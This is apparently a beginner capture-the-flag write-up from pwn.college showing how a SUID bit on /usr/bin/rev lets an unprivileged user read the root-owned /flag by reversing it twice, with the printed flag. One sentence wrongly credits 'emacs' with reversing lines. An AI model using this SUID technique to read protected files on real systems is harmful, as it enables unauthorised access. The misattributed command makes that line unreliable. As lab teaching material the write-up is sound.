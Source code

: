 # Challenge Name: rev
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/rev`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/rev
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/rev
```

-The `s` in `-rws` indicates it's a SUID binary.
-`rev` runs with **root privileges**.

## 🚀 Exploitation

The `emacs` command in Linux reverses the characters in each line of a file or standard input. 

We can simply double reverse the /flag while storing ouptut in a variable to reveal the flag.

```bash
myflag=$(rev /flag)
echo "$myflag" | rev
```

Output:
```
pwn.college{0yrk_SqiqllhJjs5dX0aI_peczm.dJTNxwSM0IzMyEzW}
```

